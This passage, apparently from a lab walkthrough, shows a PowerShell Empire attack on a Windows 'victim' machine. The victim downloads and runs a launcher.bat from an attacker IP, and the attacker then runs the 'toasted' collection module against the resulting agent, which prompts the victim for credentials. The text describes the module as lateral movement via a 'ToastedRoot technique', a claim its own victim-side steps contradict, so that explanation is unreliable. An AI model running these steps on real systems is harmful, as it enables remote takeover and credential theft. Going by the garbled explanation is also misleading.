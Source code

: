 ```
192.168.121.42/launcher.bat
```

- This will download a file named "launcher" onto the victim computer.
- Save the file and run it by double-clicking on its icon.

- Back in the attacker machine, check the PowerShell Empire server and client consoles,
- In the PowerShell Empire client console (#2), type in **`agents`**
    - In PowerShell Empire, the **`agents`** command is used to list all the active agent sessions that have been established with compromised systems.
    - It provides information about the active agents, such as their session ID, agent type, hostname, username, and more.
- Once an agent is deployed, which means that we are in control of the victim system (almost)
- In the same space (#2), use the **`usemodule`** command followed by **`powershell/collection/toasted`** to select the **`toasted`** module
    - The module "powershell/collection/toasted" in PowerShell Empire is used to perform lateral movement and execute commands on remote systems within a Windows domain environment. It leverages the ToastedRoot technique to execute code in a highly privileged context.
- Set the **`VerifyCreds`** option to **`True`** in the "powershell/collection/toasted" module, you can use the following command:

```bash
set VerifyCreds True
```

- This command sets the **`VerifyCreds`** option to **`True`**, indicating that the module should verify the credentials before proceeding with the lateral movement.
- Set the **`Agent`** option to a specific agent session ID, such as "274L2PBU", you can use the following command:

```bash
set Agent 274L2PBU
```

- Enter **`execute`** and hit enter.

### Victim machine operations

- There should be a pop up regarding window restart.
- Following the pop up to “yes”, it will ask for confirmation whether you want to restart and enter user credentials.

- Back in Kali Linux (Attacker machine),
- If we would be looking at enabling RDP(Remote Desktop Protocol)

### What is RDP(Remote Desktop Protocol) ?

- Remote Desktop protocol (RDP) is a Microsoft-developed protocol that allows users to remotely access and control a computer over a network.
- It provides a graphical interface to interact with a remote system as if you were physically present at the computer.
- RDP is a commonly used for remote administration, support, and remote work scenarios.

### Enabling RDP (Remote Desktop Protocol)
